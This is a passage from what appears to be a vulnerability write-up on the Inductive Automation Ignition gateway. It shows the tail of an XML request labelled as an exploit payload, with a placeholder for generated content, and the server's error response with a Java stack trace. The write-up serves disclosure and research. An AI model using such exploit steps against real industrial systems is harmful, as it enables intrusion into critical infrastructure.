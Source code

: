 ```xml
    </message>
    <locale>
        <l>en</l>
        <c>GB</c>
        <v></v>
    </locale>
</requestwrapper>
```
> Snippet 9: Exploit payload


`<PAYLOAD>` will contain the output of running *Snippet 8*.

The target will respond with:

```xml
HTTP/1.1 200 OK
Date: Sat, 11 Jan 2020 10:17:55 GMT
Content-Type: text/xml
Server: Jetty(9.4.20.v20190813)
Content-Length: 7760

<?xml version="1.0" encoding="UTF-8"?>
<ResponseWrapper>
    <Response>
        <errorNo>500</errorNo>
        <errorMsg>Unable to load project diff.</errorMsg>
        <StackTrace>
            <ExceptionMsg>Unable to load project diff.</ExceptionMsg>
            <ExceptionString>com.inductiveautomation.ignition.gateway.servlets.gateway.functions.GatewayFunctionException: Unable to load project diff.</ExceptionString>
            <ExceptionCls>com.inductiveautomation.ignition.gateway.servlets.gateway.functions.GatewayFunctionException</ExceptionCls>
            <ExceptionOTS>false</ExceptionOTS>
            <StackTraceElem>
                <decl>com.inductiveautomation.ignition.gateway.servlets.gateway.functions.ProjectDownload</decl>
                <meth>getDiff</meth>
                <file>ProjectDownload.java</file>
                <line>52</line>
            </StackTraceElem>
            <StackTraceElem>
                <decl>jdk.internal.reflect.NativeMethodAccessorImpl</decl>
                <meth>invoke0</meth>
                <file>null</file>
                <line>-2</line>
            </StackTraceElem>
            <StackTraceElem>
                <decl>jdk.internal.reflect.NativeMethodAccessorImpl</decl>
                <meth>invoke</meth>
                <file>null</file>
                <line>-1</line>
            </StackTraceElem>
            <StackTraceElem>
                <decl>jdk.internal.reflect.DelegatingMethodAccessorImpl</decl>
                <meth>invoke</meth>
                <file>null</file>
                <line>-1</line>
            </StackTraceElem>
(...)
```
> Snippet 10: Response to exploit payload
